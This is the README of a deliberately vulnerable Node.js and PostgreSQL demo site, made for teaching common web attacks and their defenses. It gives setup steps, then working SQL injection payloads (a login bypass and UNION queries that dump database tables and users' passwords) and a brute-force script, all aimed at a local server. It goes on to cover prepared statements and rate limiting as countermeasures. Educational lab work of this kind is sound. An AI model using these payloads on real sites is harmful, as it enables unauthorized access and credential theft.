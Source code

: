 # Very Secure Website

Actually, this website is very **insecure**.

The website is a demostration for some common attacks to web servers.

## Preparation

1. Install [PostgreSQL](https://www.postgresql.org/) and create a database on it.

2. Run `node install` to install dependencies for this server.

3. Configure `config.js` in order to connect to your PostgreSQL database.

4. Run `node src/model/schema.js` to initialize your database.

5. Run `node src/server.js` to start up your server.
  - The server will be run on port `8080`.

6. Enjoy !

## Vulnerability

Here are the vulnerabilities you can try on this website:

### SQL Injections

#### Login as Administrator

Type in `admin' --` as username and anything as password on the login form.

#### View All Tables and Their Columns in The Database

Send a GET request to this URL:

```
http://127.0.0.1:8080/api/posts?id=-1 UNION SELECT 1, table_name, column_name FROM information_schema.columns WHERE table_schema = 'public';
```

You can achieve this by simply typing this on the URL bar of your browser.

#### View All Users' Data

Send a GET request to this URL:

```
http://127.0.0.1:8080/api/posts?id=-1 UNION SELECT id, username, password FROM users;
```

You can achieve this by simply typing this on the URL bar of your browser.

### Brute-Force Attacks

#### Brute-Force the Password of the Administrator

Run `node util/brute.js`

## Defense

### SQL Injections

To prevent SQL injections, you could use [Prepared Statements](https://github.com/vitaly-t/pg-promise/wiki/Learn-by-Example#prepared-statements) provided by [pg-promise](https://github.com/vitaly-t/pg-promise).

Prepared statements clearly separate the SQL command and the data. Therefore, it prevents the client inputs become a part of SQL command.

### Brute-Force Attacks

A simple way to prevent brute-force attacks is limit how many times a user can try to login in a given time window. [rate-limiter](https://github.com/tj/node-ratelimiter) is a good middleware for this job.

## References

- [Node.js Security Checklist](https://blog.risingstack.com/node-js-security-checklist/)
  - A checklist for developers to prevent security risks on Node.js.
- [OWASP Node Goat Project](https://www.owasp.org/index.php/Projects/OWASP_Node_js_Goat_Project)
  - An example project for developers to learn how common security risks on Node.js apply to web applications developed using Node.js and how to effectively address them.

